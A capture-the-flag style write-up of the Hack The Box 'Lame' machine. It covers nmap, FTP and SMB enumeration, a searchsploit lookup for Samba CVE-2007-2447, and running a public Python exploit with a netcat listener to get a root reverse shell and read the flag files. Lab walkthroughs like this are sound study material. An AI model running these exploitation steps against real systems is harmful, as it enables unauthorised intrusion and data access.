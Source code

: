 ```yaml
---
title: Lame
layout: default
parent: Hack the Box OSCP Like
nav_order: 1
has_children: false
---
```


![Lame](images/Lame.png)

<button type="button" name="button" class="btn">#Samba</button>

# Discovery
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ sudo nmap -sC -sV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 20:25 BST
Nmap scan report for 10.10.10.3
Host is up (0.0054s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-23T15:25:54-04:00
|_clock-skew: mean: 2h00m23s, deviation: 2h49m44s, median: 21s
```

## FTP
Connected to FTP Anonymously, doesn't appear to be anything there (only directories were . and .. navigating around didn't show anything promising)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

## SMB
SMBMap seems to find something interesting in tmp ('oh noes!' - probably because it's anonymous read/write)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Recursive file search shows a few files inside of TMP:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -R -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	.\tmp\*
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	.
	dw--w--w--                0 Sat Oct 31 06:33:57 2020	..
	dr--r--r--                0 Thu Jun 23 20:47:03 2022	.ICE-unix
	dw--w--w--                0 Thu Jun 23 20:47:31 2022	vmware-root
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.X11-unix
	fw--w--w--               11 Thu Jun 23 20:47:28 2022	.X0-lock
	fw--w--w--                0 Thu Jun 23 20:48:05 2022	5563.jsvc_up
	fw--w--w--             1600 Thu Jun 23 20:47:01 2022	vgauthsvclog.txt.0
	.\tmp\.X11-unix\*
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	..
	fr--r--r--                0 Thu Jun 23 20:47:28 2022	X0
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

This command will allow us to download files, vgauth stood out, but perhaps I'm not looking at the right thing as it is empty:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gedit 10.10.10.3-tmpvgauthsvclog.txt.0
```

# Exploitation
---
## SAMBA
We saw that the server itself is running 3.0.20 (Samba) so let's read about any potential exploits.

Identified this link: [## CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447
>The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

Performed some searchsploit checks and found this as well
[Link](https://www.exploit-db.com/exploits/16320)
```bash
[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit samba 3.0.20
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Securi | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map scr | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -p 16320
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
File Type: Ruby script, ASCII text

Copied EDB-ID #16320's path to the clipboard
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -w 16320
---------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                              |  URL
---------------------------------------------------------------------------- --------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasp | [Link](https://www.exploit-db.com/exploits/16320)
---------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looks like these are all metasploit, and we're trying to avoid its usage for the exam.
Found a github python script to do the manual exploitation: [Link](https://github.com/amriunix/CVE-2007-2447)
This video explains how to walk through exploitation (both manual and via metasploit) [Link](https://www.youtube.com/watch?v=HPP70Bx0Eck)

First attempt was a failure because I had not installed the PYSMB module in order to import the SMBConnection:
```bash
└──╼ [★]$ python -m pip install pysmb
Collecting pysmb
  Downloading pysmb-1.2.8.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 5.3 MB/s
---
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
```

Ran the script, with appropriate perameters, all while running a netcat listener in a separate terminal, and can see that the connection was established:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ python3 usermap_script.py 10.10.10.3 445 10.10.14.8 5000
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ nc -nvlp 5000
listening on [any] 5000 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 34178
```

# Privilege Escalation
---
1. Identified linux version/type via uname (GNU)
2. Identified current user (root)
3. Ran a find search to locate 'user.txt' (which is typically our user flag)
4. Cat'd out User.txt and pulled the flag
5. Cd'd back out into the root user folder and saw root.txt
6. Cat'd out root.txt and pulled the flag

```bash
whoami
root
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
find /* -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
[redacted]
find /* -name root.txt
/root/root.txt
cat /root/root.txt
[redacted]
```
